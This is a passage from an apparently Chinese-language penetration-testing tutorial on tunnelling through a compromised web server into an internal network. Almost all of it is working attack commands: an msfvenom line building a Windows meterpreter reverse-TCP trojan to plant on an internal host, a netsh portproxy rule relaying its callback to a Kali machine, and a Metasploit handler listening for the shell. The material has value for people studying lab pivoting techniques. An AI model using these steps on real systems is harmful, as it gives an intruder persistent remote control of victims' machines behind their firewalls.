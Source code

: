![image-20221024105351598](隧道应用/image-20221024105351598.png)

​	

### 操作步骤

在kali生成一个反向木马用于让内网主机主动连接Web服务器的5555端口, 然后将此木马放到内网主机中去

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.52.143 lport=5555 -f exe >reverse.exe
```

![image-20221023234859524](隧道应用/image-20221023234859524.png)



在Web服务器设置端口转发, 将本机5555端口接收到的数据转发至kali的5555端口

```
netsh interface portproxy add v4tov4 listenport=5555 connectport=5555 connectaddress=192.168.47.134
```

![image-20221024103853543](隧道应用/image-20221024103853543.png)	



在kali的MSF创建监听,监听本机的5555端口

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.47.134
lhost => 192.168.47.134
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```
